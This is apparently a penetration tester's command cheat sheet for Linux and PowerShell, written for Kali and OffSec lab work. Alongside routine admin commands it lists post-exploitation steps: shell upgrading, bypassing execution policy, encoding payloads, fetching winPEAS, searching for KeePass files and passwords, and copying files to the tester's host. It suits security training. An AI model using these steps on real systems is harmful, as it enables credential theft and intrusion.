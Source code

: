 Locate file by name:
```bash
locate <filename>
```

Find commands:
```bash
man -k <regex search term>
```

Find command location:
```bash
which <command>
```

Find and replace in file:
```bash
sed -i ‘s/<search term>/<replace term>/g’ <target filename>
```

Change Password:
```bash
passwd
```

Start SSH:
```bash
sudo systemctl start ssh
sudo ss -antlp | grep sshd
```

Start HTTP:
```bash
sudo systemctl start apache2
sudo ss -antlp | grep apache
```
```bash
python3 -m http.server 80
```

See All Available Services:
```bash
systemctl list-unit-files
```

Install Shit Locally:
```bash
sudo dpkg -i ./<path to .deb file>
```

Assign New Environment Variable:
```bash
export NEW-VARIABLE-NAME=VALUE-TO-ASSIGN-IT-TO
```

Inspect Existing Environment Variables:
```bash
env
```

View Session Command History:
```bash
history
```

Rerun Command From History:
```bash
!<line number of command as displayed in history>
```
```bash
!! to execute the last command run
```

Monitor CPU Usage:
```bash
watch -n 1 ps aux --sort=%cpu | head -n 10
```

Get PID:
```bash
ps | grep <thing you want to find>
```
eg.
```bash
ps | grep firefox
```

Find Git repos on Linux:
```bash
find / -name ".git" 2>/dev/null
```

Spawn a TTY shell:
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

Powershell or CMD:
```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo Powershell
```

Powershell 64 bit machine?
```powershell
[System.Environment]::Is64BitOperatingSystem
```

Powershell bypass script execution prevention:
```powershell
powershell -ep bypass
```

Powershell Convert to Base64:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('<insert payload here>'))
```

Powershell Convert from Base64:
```powershell
[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('<insert payload here>'))
```

Powershell download from URL:
```powershell
(New-Object System.Net.WebClient).DownloadFile("<URL>","C:\path\to\destination")
```

Alternative Powershell download from URL:
```powershell
iwr -uri http://my.url/winPEASx64.exe -Outfile winPEAS.exe
```

Powershell find Keepass file:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

Find Git repository on Windows:
```powershell
Get-ChildItem -Path C:\ -Include '.git' -Directory -Recurse -ErrorAction SilentlyContinue -Force
```

Powershell find string in files:
```powershell
Get-ChildItem -Path "C:\Users\" -Recurse -ErrorAction 'SilentlyContinue' | Select-String -Pattern "password" -ErrorAction 'SilentlyContinue' | Select LineNumber, Filename, Path
```

Powershell search in file for lines excluding keyword:
```powershell
cat NoisyLogFile.txt | Where-Object { !( $_ | Select-String "annoying string to filter" -quiet) }
```

Powershell SCP:
```powershell
scp filename.txt kali@<our IP>:/home/kali
```

RDP Connection:
```bash
xfreerdp /u:offsec /p:lab /v:192.168.123.121
```

For when the `vmmon` kernel module decides to not:
```bash
openssl req -new -x509 -newkey rsa:2048 -keyout MOK.priv -outform DER -out MOK.der -nodes -days 36500 -subj "/CN=VMware/"
```
```bash
sudo /usr/src/linux-headers-`uname -r`/scripts/sign-file sha256 ./MOK.priv ./MOK.der $(modinfo -n vmmon)
```
```bash
sudo /usr/src/linux-headers-`uname -r`/scripts/sign-file sha256 ./MOK.priv ./MOK.der $(modinfo -n vmnet)
```
```bash
sudo mokutil --import MOK.der
```
and restart.

For when clipboard between Kali and Host is fucked again for no reason:
```bash
sudo apt remove open-vm-tools
sudo apt remove open-vm-tools-desktop
sudo apt install open-vm-tools
sudo apt install open-vm-tools-desktop
```

For when we wanna close irritating dangling loopback listeners, first identify them via:
```bash
ss -ntlpu
```
This likely won't show the PID, to get that:
```bash
sudo lsof -i :<PORT_IN_QUESTION>
```
Then kill the process:
```bash
kill <PID>
```
